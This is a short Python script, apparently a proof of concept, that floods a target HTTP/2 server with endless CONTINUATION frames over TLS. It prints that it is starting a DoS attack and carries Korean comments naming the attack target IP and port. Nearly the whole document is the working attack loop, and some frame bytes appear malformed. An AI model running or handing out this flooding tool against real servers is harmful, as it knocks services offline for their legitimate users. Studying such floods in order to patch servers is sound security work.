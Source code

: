 import socket
import ssl

def send_continuation_frames(target_ip, target_port):
    context = ssl.create_default_context()
    context.check_hostname = False
    context.verify_mode = ssl.CERT_NONE

    conn = context.wrap_socket(socket.socket(socket.AF_INET), server_hostname=target_ip)
    conn.connect((target_ip, target_port))

    # HTTP/2 connection preface
    preface = b'PRI * HTTP/2.0\r\n\r\nSM\r\n\r\n'
    conn.send(preface)

    # HTTP/2 settings frame
    settings_frame = b'\x00\x00\x12\x04\x00\x00\x00\x00\x00'
    conn.send(settings_frame)

    # Read the settings acknowledgement
    conn.recv(4096)

    # HTTP/2 CONTINUATION frame
    continuation_frame = b'\x00\x00\xff\x09\x00\x00\x00\x00\x01' + b'A' * 255

    try:
        while True:
            conn.send(continuation_frame)
    except KeyboardInterrupt:
        print("Attack stopped.")
    finally:
        conn.close()

if __name__ == "__main__":
    target_ip = "192.168.56.1"  # 공격 대상 IP
    target_port = 443        # 공격 대상 포트 (HTTPS)

    print(f"Starting DoS attack on {target_ip}:{target_port}")
    send_continuation_frames(target_ip, target_port)

